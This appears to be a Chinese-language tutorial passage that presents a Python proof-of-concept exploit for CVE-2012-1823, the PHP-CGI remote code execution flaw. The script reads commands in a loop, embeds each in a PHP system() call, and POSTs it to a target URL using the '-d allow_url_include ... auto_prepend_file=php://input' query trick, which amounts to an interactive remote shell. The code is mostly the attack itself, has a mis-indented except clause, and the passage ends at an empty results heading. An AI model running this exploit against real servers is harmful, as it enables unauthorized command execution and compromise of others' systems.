

# 用例 2: CVE-2012-1823

# CVE-2012-1823

* * *

这个 PoC 演示了 CVE-2012-1823 – PHP-CGI 的远程代码执行漏洞的利用,下面这个 PoC 的代码是通过一个简单的循环来获取 PoC 使用者频繁输入的内容,并且修改 HttP 头。Post 提交请求。这个代码的原理也可以用于其他的示例。因为这段代码演示了如何通过 Python 创建自定义的 HTTP 头并且发起请求:

```
#!/usr/bin/python
import sys, urllib2    #导入需要的模块

if len(sys.argv) != 2:    # 检查输入的格式是否正确 "<script> <URL>"
  print "Usage: "+sys.argv[0]+" <URL>"
  sys.exit(0)

URL=sys.argv[1]        # 输出测试的 url 链接 "[+] Attempting CVE-2012-1823 - PHP-CGI RCE"

while True:        # 循环开始时先输出 "~$ " 然后通过"raw_input"获取要执行的命令
  command=raw_input("~$ ")
  Host = URL.split('/')[2]      # 从 URL 解析主机名: 'http://<host>/' 并且赋值给 Host <host>
  headers = {                   # 定义响应头部
    'Host': Host,
    'User-Agent': 'Mozilla',
    'Connection': 'keep-alive'}
  data = "<?php system('"+command+"');die(); ?>"        # PHP 运行的服务器
  req = urllib2.Request(URL+"?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input", data, headers)

  try:                    # 使用 Try/Except 处理响应信息
    response = urllib2.urlopen(req)     # 发起请求
    for line in response.readlines():
      print line.strip()
    except Exception as e: print e 
```

**结果演示**

